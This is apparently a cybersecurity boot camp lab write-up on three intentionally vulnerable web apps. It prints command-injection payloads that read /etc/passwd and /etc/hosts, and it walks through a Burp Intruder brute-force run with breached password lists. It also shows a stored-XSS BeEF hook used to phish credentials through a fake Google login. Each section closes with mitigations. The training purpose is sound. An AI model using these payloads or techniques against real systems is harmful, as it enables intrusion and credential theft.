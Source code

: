 ## Web Application 1: Your Wish is My Command Injection
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         cd ./Documents/web-vulns && docker-compose up
      ```

    * Open a browser and navigate to the following webpage: http://192.168.13.25

    * The web page should look like as the figure below

    * Log in with the following credentials:
      *    Usernmae: admin
      *    Password: password

    * Select the **Command Injection** or access this page directly http://192.168.13.25/vulnerabilities/exec/
    * Entering the IP address `8.8.8.8` press **Submit** to see the results display on the web application.

![Web Application 1_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_1.png)


* Behind the scenes, when we select Submit, the IP you type in the field is injected into a command that is run against the Replicants webserver. The specific command that ran on the webserver is `ping <IP>` and `8.8.8.8` is the field value that is injected into that command.


2.  Now that we have determined that Replicants new application is vulnerable to command injection, we will tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

      - `/etc/passwd`
   
      - `/etc/hosts`


<details>
<summary> <b> Click here to view Design Command Injection Payloads. </b> </summary>

---

#### How to manipulate the input to cause an unintended result 
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_cat_passwd_1.png)
![Web Application 1_cat_passwd_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_cat_passwd_2.png)

- On the same webpage, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/passwd`
   
![Web Application 1_cat_passwd_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_4.png)
   
- In the terminal, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_2.png)

- On the web browser, enter the following command (payload) in the field: `8.8.8.8 && cat ../../../../../etc/hosts`
   
![Web Application 1_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%201_5.png)
   

#### Mitigation Strategies

1. **Input validation** is a method to validate the data input with a predefined logic, ensuring that the input is what the application is expecting. Input validation can be applied on the client-side or the server-side. For example,
   
|          | Function | Example    |
|----------|----------|------------|
| **Client-side**| Input validation involves coding the predefined logic into the webpage.                   | An input can only be chosen from a predefined drop-down menu.     |
| **Server-side**| Input validation involves adding the predefined logic into the code on the web server.    | If a user enters a malicious SQL code and selects submit, then the web server will check and remove it after receiving this malicious input.     |

2. **Avoid Command-Line Calls Altogether** The first prevention method you can do is avoiding command line calls. Because when we’re using command lines, it opens users to risk such as command injection. 
   
3. **Use Built-in APIs Instead of OS Commands** Another method is to shift from using Operating System (OS) commands to much-safer APIs, considering that most reputable APIs have built-in security measures. 
   
4. **Reject Unacceptable Code** We can also use server-level protection, which is blacklisting a set of codes. Simply by only allowing the codes we and our team built prevents any other code from accessing the server. Thus, creating a barrier between the malicious codes and the whole server.
   
5. **Escaping Shell Metacharacters** Also, to prevent any other characters and limit the output of commands, we can use escaping shell metacharacters. This method allows us to expressly grant access depending on the variables. Our developer can set these variables based on our needs.    
   
   
</details>

---


## Web Application 2: A Brute Force to Be Reckoned With
1.  Complete the following steps to walkthrough the intended purpose of the web application.
    * Access Vagrant and RUN 
      ```bash
         sudo burpsuite
      ```

    * Open the Firefox browser and navigate to the following webpage: http://192.168.13.35/install.php.

    * The web page should look like as the figure below. Click **here** to install bWapp.

    * After successfully installing bWapp, log in with the following credentials:
       - Username: bee
       - Password: bug


    * To access the application where we will perform our activity, enter in the following URL: http://192.168.13.35/ba_insecure_login_1.php
    
    * On Firefox browser, make sure the FoxyProxy settings is set to **Burp**.

![Web Application 2_1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_1.png)

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login:
     - Username: test-user
     - Password: password

![Web Application 2_2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_2.png)

* Following was displayed in the Burp Suite in **Proxy** tab under the Intercept - Highlighting the **Login and password** credentials.

![Web Application 2_3](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_3.png)

* From the web application tool Burp Suite, on the **Intercept** tab, right click anywhere to send the information to **Intruder** 
 
   -  Select the **Intruder** tab, and verify the Target tab

![Web Application 2_4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_4.png)
![Web Application 2_5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_5.png)

   -  Select the **Positions** tab and change the attack type to **Cluster bomb**, also **clear** all payload positions, except for the login and password credentials.

![Web Application 2_6](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_6.png)

* We've been provided with a list of administrators and the breached passwords:
* [ ] [List of Administrators](listofadmins.txt)
* [ ] [Breached list of Passwords](breached_passwords.txt)


<details>
<summary> <b> Click here to view How to conduct a brute force attack. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 
   
* Select **Payloads** tab and enter the [List of Administrators](listofadmins.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 1  

![Web Application 2_7](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_7.png)
   
- Add the password from the [Breached list of Passwords](breached_passwords.txt) file that provided above into the **Payload Options [Simple list]** for Payload set: 2  
   
![Web Application 2_8](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_8.png)

- Click the **Start** attack button to get the results.
   
![Web Application 2_9](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_9.png)

- Results from the analysis that was complete from the Intruder show that there was one successful login username/password combination. 
   
![Web Application 2_10](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_10.png)
   
- It was user name of **" tonystark"** and the password **"I am Iron Man"**. Below snapshots display the successful login in the **Response** tab.

![Web Application 2_11](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%202_11.png)
   
#### Mitigation Strategies

**Developers** can use several mitigation methods to protect against a brute force attack:

   1.) Require complex usernames and passwords:
For example, require the user to include special characters, upper and lowercase, and numbers in the username and password.

   2.) Lockout accounts after a number of failed attempts:
For example, after three failed login attempts, the user's account gets locked.

   3.) Use multi-factor authentication (MFA):
For example, require users to have a password and a secondary form of authentication, like a pin generated by an external token and/or requiring complex usernames and passwords. 
   
   
</details>

---


### Web Application 3: *Where's the BeEF?*

1. Access Vagrant, open the terminal and and run the command

```
sudo beef
```
When prompted for a password, enter `cybersecurity`.

2. This will kick off the BeEF application and return many details about the application to your terminal. We can access to BeEF's User Interface (UI) by right-click the first URL and select Open Link `UI_URL: http://127.0.0.1:3000/ui/panel`. 

   - When the BeEF webpage opens, login with the following credentials:
     - Username: `beef`
     
     - Password: `feeb`

     ![wd_hw11](Images/wd_hw11.png)

   - You have successfully completed the setup when you have reached the **BeEF Control Panel** shown in the image below:

     ![wd_hw12](Images/wd_hw12.png)

3. Prepare the Replicants website, from the Terminal in Vagrant navigate to ~/Documents/web-vulns directory by

```
cd ~/Documents/web-vulns
```
and run the command

```
sudo docker-compose up
```
![Web Application 3_3.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_3.png)

   - Go to the web browser and enter the following in the address bar `http://192.168.13.25/vulnerabilities/xss_s/` then reset the database and login with the following credentials:
     - Username: `admin`
     
     - Password: `password`
     
     
3. The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
![Web Application 3_4.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_4.png)

- The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`. 

- When trying to inject the payload there was an issue found, in the message box field, there was a limit of `maxlength="50"` character in the source code. Therefore we could not inject the payload.
![Web Application 3_5.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_5.png)

- Solution to solve this issue, right-click on web page < click **Inspector** < In **Inspector windows** scrolling down till we see the `<textarea name="mtxMessage"
cols="50" rows="3" maxlength="50">` then now we can edit from 50 to any bigger number  
![Web Application 3_6.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_6.png)

Now we are able to hook into Replicants website, so next we will attempt a couple BeEF exploits including:

   - Social Engineering >> Pretty Theft

   - Social Engineering >> Fake Notification Bar

   - Host >> Get Geolocation (Third Party)


<details>
<summary> <b> Click here to view How to Exploiting XSS with BeEF. </b> </summary>

---


#### How to conduct a brute force attack against a web application login page with the Burp Intruder function 

- First, we'll attempt a social engineering exploit to create a fake Log-in to user. We can use this to capture victim credentials.
- To access this exploit, navigate to **BeEF Control Panel** < select current hooked browser < go to **Commands** tab < expanding **Social Engineering** < click **Google Phishing**.
- To launch th exploit, click **Execute** button in the bottom right corner.

![Web Application 3_8.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_8.png)   

- After executed, return to the browser that has been changed to a Google Mail Login page.     
   
![Web Application 3_9.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_9.png)
   
- The victim could easily mistake entering their credentials. Use the following credentials to login to this fake Google Mail page.
   
![Web Application 3_10.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_10.png)   
   
- Return to the BeEF control panel, in the center windows we'll see the module history command. Click that command to see the results in the last windows panel.
   
![Web Application 3_11.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_11.png)  
   
- As we saw, the username and password have been captured. Now we can try on another method as the following:
   
   - Social Engineering >> Pretty Theft

![Web Application 3_12.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_12.png) 
   
![Web Application 3_13.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_13.png) 
   
![Web Application 3_14.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_14.png) 

   - Social Engineering >> Fake Notification Bar
![Web Application 3_15.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_15.png) 

   - Host >> Get Geolocation (Third Party)
![Web Application 3_16.png](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/15-Web-Vulnerabilities-and-Hardening/Images/Web%20Application%203_16.png)
   
#### Mitigation Strategies

**BeEF** is an exploitation tool that focuses on a specific client-side application: the web browser. BeEF allows an attacker to inject a JavaScript code into a vulnerable HTML code using an attack such as XSS or SQL injection. This exploit code is known as hook. A compromise is achieved when the hook is executed by the browser. The browser (zombie) connects back to the BeEF application, which serves JavaScript commands or modules to the browser. BeEF's modules perform tasks such as the following:

   1.) Fingerprinting and the reconnaissance of compromised browsers. It can also be used as a platform to assess the presence of exploits and their behavior under different browsers.

   2.) Detecting software on the client (Internet Explorer only) and obtaining a list of the directories in the Program Files and Program Files (x86)directories. This may identify other applications that can be exploited to consolidate our hold on the client.

   3.) Taking photos using the compromised system's webcam; these photos have a significant impact in reports.
   
   4.) onducting searches of the victim's data files and stealing data that may contain authentication credentials (clipboard content and browser cookies)  or other useful information.
   
   5.) Implementing browser keystroke logging.
   
   6.) onducting network reconnaissance using ping sweeps and fingerprint network appliances and scanning for open ports.
   
   7.) Launching attacks from the Metasploit Framework.
   
   8.) Using the tunneling proxy extension to attack the internal network using the security authority of the compromised web browser.
   
Because BeEF is written in Ruby, it supports multiple operating systems (Linux, Windows, and OS X). More importantly, it is easy to customize new modules in BeEF and extend its functionality.
   

   
</details>

---




---

### Citations and References:

#### General Resources:

- InfoTech News. Command Injection: What It Is And How To Prevent It. [cited 2021 September 29]. Available from: [meterpreter.org](https://meterpreter.org/command-injection-what-it-is-and-how-to-prevent-it/).
- Akshat Khare. Parth Chopra. Rahul Motwani. Web Applications Penetration Testing. Center of Excellence in Cyber Systems and Information Assurance (CoE-CSIA), IIT Delhi. [cited 2021 October 1]. Available from: [cse.iitd.ac.in](https://www.cse.iitd.ac.in/~cs1160315/WebPenetrationTesting.pdf)
- 


#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---
